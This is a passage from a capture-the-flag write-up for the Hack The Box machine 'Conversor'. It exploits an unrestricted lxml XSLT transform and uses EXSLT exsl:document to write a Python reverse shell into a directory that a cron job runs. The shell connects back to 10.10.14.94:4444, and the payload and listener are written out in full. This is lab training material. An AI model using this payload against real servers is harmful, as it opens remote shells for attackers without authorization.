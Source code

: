 - They hardened the XML parser, but not the XSLT parser. No XSLTAccessControl means libxslt’s extensions are enabled, including EXSLT `exsl:document`, which can write files
```
parser = etree.XMLParser(resolve_entities=False, no_network=True, dtd_validation=False, load_dtd=False)
xml_tree = etree.parse(xml_path, parser)
xslt_tree = etree.parse(xslt_path)
```

From `install.md`:
- Cron job is running  as `www-data` and executing all `.py` files from **/var/www/conversor.htb/scripts/** 

So we can abuse this to get a reverse shell as a `www-data`
Payload used:
```
┌──(kali㉿kali)-[~/Desktop/HTB/Conversor]
└─$ cat nmap.xml 
<a/>
┌──(kali㉿kali)-[~/Desktop/HTB/Conversor]
└─$ cat nmap.xslt 
<!-- write_pwn.xslt -->
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exsl="http://exslt.org/common"
  extension-element-prefixes="exsl">

  <xsl:output method="text"/>

  <xsl:template match="/">
    <!-- write the Python file to the cron-run directory -->
    <exsl:document href="file:///var/www/conversor.htb/scripts/pwn.py" method="text">
      <xsl:text># payload written by XSLT&#10;</xsl:text>
      <xsl:text>import socket,os,pty&#10;</xsl:text>
      <xsl:text>s=socket.create_connection(("10.10.14.94",4444))&#10;</xsl:text>
      <xsl:text>for fd in (0,1,2): os.dup2(s.fileno(),fd)&#10;</xsl:text>
      <xsl:text>pty.spawn("/bin/bash")&#10;</xsl:text>
    </exsl:document>

    <!-- optional: emit something so transform succeeds -->
    <xsl:text>ok</xsl:text>
  </xsl:template>
</xsl:stylesheet>
```
Setup a listener
```
┌──(kali㉿kali)-[~/Desktop]
└─$ penelope
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.134.128 • 10.10.14.94
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
## Shell as www-data
